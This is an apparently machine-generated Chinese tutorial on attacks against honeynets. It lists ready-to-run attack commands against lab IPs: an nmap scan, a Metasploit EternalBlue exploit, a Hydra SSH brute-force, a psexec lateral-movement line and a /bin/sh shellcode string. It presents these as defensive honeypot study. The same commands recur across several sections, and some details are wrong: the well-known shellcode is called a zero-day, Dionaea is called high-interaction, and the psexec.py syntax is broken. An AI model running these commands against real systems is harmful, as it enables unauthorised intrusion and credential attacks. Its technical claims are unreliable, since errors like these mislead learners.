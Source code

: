# 蜜罐网络部署实践的攻击技术

## 1. 引言

蜜罐网络（Honeynet）是一种主动防御技术，通过模拟真实的网络环境来诱捕攻击者，从而收集攻击行为、工具和策略。了解攻击者在蜜罐网络中的常见手法和利用方式，对于优化蜜罐部署、提升防御能力至关重要。本文将深入探讨蜜罐网络部署实践中的攻击技术，包括技术原理解析、变种和高级利用技巧、攻击步骤以及实验环境搭建指南。

## 2. 技术原理解析

### 2.1 蜜罐网络的基本架构

蜜罐网络通常由多个蜜罐（Honeypot）组成，模拟不同的服务和系统。常见的蜜罐类型包括低交互蜜罐（如Honeyd）和高交互蜜罐（如Dionaea）。蜜罐网络的核心目标是诱捕攻击者，同时确保攻击行为不会对真实网络造成影响。

### 2.2 攻击者的视角

攻击者在探测网络时，通常会使用扫描工具（如Nmap）来识别开放端口和服务。一旦发现蜜罐，攻击者会尝试利用已知漏洞或弱口令进行入侵。蜜罐网络通过记录这些攻击行为，帮助安全团队分析攻击者的策略和工具。

### 2.3 底层实现机制

蜜罐网络的底层实现机制包括：

- **流量重定向**：通过防火墙或路由策略，将攻击流量引导至蜜罐。
- **服务模拟**：蜜罐模拟真实服务的行为，如SSH、FTP、HTTP等。
- **日志记录**：记录所有与蜜罐的交互，包括网络流量、系统日志和文件操作。

## 3. 常见攻击手法和利用方式

### 3.1 端口扫描和服务识别

攻击者通常使用Nmap等工具进行端口扫描，识别开放的端口和运行的服务。蜜罐网络可以通过模拟多种服务来诱捕攻击者。

**命令示例：**
```bash
nmap -sV 192.168.1.100
```

### 3.2 漏洞利用

攻击者会利用已知漏洞进行入侵。例如，利用Metasploit框架中的漏洞利用模块。

**命令示例：**
```bash
msfconsole
use exploit/windows/smb/ms17_010_eternalblue
set RHOSTS 192.168.1.100
exploit
```

### 3.3 弱口令攻击

攻击者会尝试使用弱口令或默认凭证进行登录。蜜罐可以通过模拟弱口令服务来诱捕此类攻击。

**命令示例：**
```bash
hydra -l admin -P passwords.txt ssh://192.168.1.100
```

### 3.4 社会工程学攻击

攻击者可能通过钓鱼邮件或恶意网站诱导用户访问蜜罐。蜜罐可以通过模拟Web服务来诱捕此类攻击。

**代码示例：**
```html
<a href="http://192.168.1.100/malicious">Click here</a>
```

## 4. 变种和高级利用技巧

### 4.1 高级持久性威胁（APT）

APT攻击者会使用复杂的工具和技术，如自定义恶意软件和多阶段攻击。蜜罐网络可以通过模拟高价值目标来诱捕APT攻击。

**工具示例：**
- Cobalt Strike：用于模拟APT攻击的高级工具。

### 4.2 零日漏洞利用

攻击者会利用未知的零日漏洞进行入侵。蜜罐网络可以通过模拟易受攻击的系统来诱捕此类攻击。

**代码示例：**
```python
# 模拟零日漏洞利用
payload = b"\x90" * 100 + b"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80"
```

### 4.3 横向移动

攻击者在入侵后，会尝试在内部网络中横向移动。蜜罐网络可以通过模拟内部网络环境来诱捕此类攻击。

**命令示例：**
```bash
psexec.py -h 192.168.1.101 -u admin -p password cmd.exe
```

## 5. 攻击步骤和实验环境搭建指南

### 5.1 实验环境搭建

**硬件要求：**
- 至少两台虚拟机（一台作为攻击者，一台作为蜜罐）

**软件要求：**
- Kali Linux（攻击者）
- Metasploit Framework
- Nmap
- Honeyd（蜜罐）

**步骤：**
1. 在攻击者机器上安装Kali Linux和Metasploit Framework。
2. 在蜜罐机器上安装Honeyd，并配置模拟服务。
3. 配置防火墙规则，将攻击流量引导至蜜罐。

**命令示例：**
```bash
# 安装Honeyd
sudo apt-get install honeyd

# 配置Honeyd
honeyd -d -f /etc/honeypot/honeyd.conf
```

### 5.2 攻击步骤

**步骤1：端口扫描**
```bash
nmap -sV 192.168.1.100
```

**步骤2：漏洞利用**
```bash
msfconsole
use exploit/windows/smb/ms17_010_eternalblue
set RHOSTS 192.168.1.100
exploit
```

**步骤3：弱口令攻击**
```bash
hydra -l admin -P passwords.txt ssh://192.168.1.100
```

**步骤4：横向移动**
```bash
psexec.py -h 192.168.1.101 -u admin -p password cmd.exe
```

## 6. 实际命令、代码或工具使用说明

### 6.1 Nmap

**用途：** 端口扫描和服务识别

**命令示例：**
```bash
nmap -sV 192.168.1.100
```

### 6.2 Metasploit Framework

**用途：** 漏洞利用

**命令示例：**
```bash
msfconsole
use exploit/windows/smb/ms17_010_eternalblue
set RHOSTS 192.168.1.100
exploit
```

### 6.3 Hydra

**用途：** 弱口令攻击

**命令示例：**
```bash
hydra -l admin -P passwords.txt ssh://192.168.1.100
```

### 6.4 Honeyd

**用途：** 蜜罐服务模拟

**命令示例：**
```bash
honeyd -d -f /etc/honeypot/honeyd.conf
```

## 7. 结论

蜜罐网络部署实践中的攻击技术涵盖了从简单的端口扫描到复杂的APT攻击。通过深入理解这些攻击手法和利用方式，安全团队可以更好地优化蜜罐部署，提升网络防御能力。本文提供了详细的技术原理解析、变种和高级利用技巧、攻击步骤以及实验环境搭建指南，帮助读者在实际环境中进行有效的蜜罐网络部署和攻击分析。

---

*文档生成时间: 2025-03-17 09:50:48*
